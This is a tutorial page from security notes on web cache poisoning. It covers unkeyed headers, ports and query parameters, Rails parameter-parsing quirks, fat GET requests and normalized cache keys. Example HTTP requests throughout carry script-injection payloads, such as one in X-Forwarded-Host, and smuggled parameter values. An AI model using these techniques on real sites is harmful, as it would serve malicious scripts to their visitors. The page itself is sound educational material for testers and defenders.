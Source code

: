 ```yaml
---
title: "Web cache poisoning"
weight: 26
---
```


More info about web cache: [Web cache](/web/web-security/web-cache/)

Two phases:

1. Find a way to trigger a response that unintentionally includes a dangerous payload.
2. Ensure the response is cached and served to the intended victims after success.

---

## Exploiting cache design flaws

**Web cache poisoning to deliver XSS**

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` is unkeyed. Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

> **Note**: Try also multiple headers:
>
> ```http
> GET /random HTTP/1.1
> Host: innocent-site.com
> X-Forwarded-Proto: http
> 
> HTTP/1.1 301 moved permanently
> Location: https://innocent-site.com/random
> ```

### Exploiting responses that expose too much information

**Cache-control directives**

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

**Vary header**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. For example, it is commonly used to specify that the `User-Agent` header is keyed. If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

---

## Exploiting cache implementation flaws

The methodology involves the following steps:

1. Identify a suitable cache oracle
   * A cache oracle is a cacheable page or endpoint that provides feedback on whether a response was cached or served directly from the server.
2. Identify and evaluate unkeyed inputs
   * Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.
3. Identify an exploitable gadget
   * These gadgets will often be classic client-side vulnerabilities, such as reflected XSS and open redirects.

> **Tip**: Use Param Miner extension to identify unkeyed inputs (Guess headers).

### Unkeyed port

In this way you can:

* Enable a denial-of-service attack by adding an arbitrary port, redirecting users to a non-functional port.&#x20;
* Enable XSS payload injection.

### Unkeyed query string

Like the Host header, the request line is usually keyed, but one of the most common cache-key transformations is the exclusion of the entire query string.

**Detecting an unkeyed query string**

You can use alternative cache busters, like adding them to a keyed header that doesn’t affect the app’s behavior.

```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```

### Unkeyed query parameters

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements. UTM parameters like `utm_content`.

#### Detection

First time

```http
GET /?first=test1&utm_content=a HTTP/2

HTTP/2 200 OK
X-Cache: miss
```

Second time

```http
GET /?first=test1&utm_content=b HTTP/2

HTTP/2 200 OK
X-Cache: hit
```

> **Tip**: Use Param Miner extension to identify unkeyed inputs.

### Exploiting parameter parsing quirks

This happen when back-end identifies distinct parameters that the cache does not. The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters

```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```

As the names suggest, `keyed_param` is included in the cache key, but `excluded_param` is not. Many caches will only interpret this as two parameters, delimited by the ampersand:

```sh
1.    keyed_param=abc
2.    excluded_param=123;keyed_param=bad-stuff-here
```

Once the parsing algorithm removes the `excluded_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:

```sh
1.    keyed_param=abc
2.    excluded_param=123
3.    keyed_param=bad-stuff-here
```

But now there is a duplicate `keyed_param`. This is where the second quirk comes into play. If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence. The end result is that the cache key contains an innocent, expected parameter value, allowing the cached response to be served as normal to other users. On the back-end, however, the same parameter has a completely different value, which is our injected payload. It is this second value that will be passed into the gadget and reflected in the poisoned response.

### Exploiting fat GET support

Although this scenario is pretty rare, you can sometimes simply add a body to a `GET` request to create a "fat" `GET` request. In this case you can "overwrite" the param value

```http
GET /?param=innocent HTTP/1.1
[…]

param=bad-stuff-here
```

### Normalized cache keys

Problem: when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them.

Example:

You send the follow URL to a victim

```sh
https://vulnerable.website.net/test<script>alert(1)</script>
```

His browser send the following request

```http
GET /test%3Cscript%3Ealert(1)%3C/script%3E HTTP/2
Host: vulnerable.website.net
[...]


HTTP/2 404 Not Found
[...]

<p>Not Found: /test<script>alert(1)</script></p>
```

So, normally this XSS is unexploitable.

**Exploitation with normalized cache keys**

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:

```http
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```

When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.
